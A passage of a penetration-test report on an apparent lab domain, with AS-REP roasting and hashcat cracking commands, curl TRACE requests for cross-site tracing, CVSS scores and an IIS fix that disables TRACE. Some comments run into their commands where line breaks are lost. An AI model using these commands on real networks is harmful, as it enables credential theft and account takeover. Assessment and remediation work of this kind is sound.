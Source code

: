 **Exploitation:**

```bash
# AS-REP Roasting AttackGetNPUsers.py north.sevenkingdoms.local/ -dc-ip 192.168.20.11 -usersfile users.txt -outputfile asrep_hashes.txt
# Hashcat Crackinghashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## 2. High Risk Vulnerabilities (CVSS 7.0-8.9)

### 2.1 HTTP TRACE Method Enabled

**CVSS Score:** 8.2 (High)
**Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N

**Affected Hosts:**
- KINGSLANDING (192.168.20.10:80)
- CASTELBLACK (192.168.20.22:80)

- BRAAVOS (192.168.20.23:80)

**Technical Evidence:**

```
http-methods: Potentially risky methods: TRACE
Server: Microsoft-IIS/10.0
```

**Exploitation:**

```bash
# Cross-Site Tracing (XST) Attackcurl -X TRACE http://192.168.20.10/
curl -X TRACE http://192.168.20.22/ -H "Cookie: session=sensitive_data"curl -X TRACE http://192.168.20.23/ -H "Authorization: Bearer token"
```

**Impact:**
- Session hijacking via XST
- Cookie/header disclosure
- Authentication bypass potential
- Client-side attack vectors

**Remediation:**

```xml
<!-- IIS applicationHost.config --><system.webServer>
  <security>
    <requestFiltering>
      <verbs applyToWebDAV="false">
        <add verb="TRACE" allowed="false" />
        <add verb="TRACK" allowed="false" />
      </verbs>
    </requestFiltering>
  </security>
</system.webServer>
```
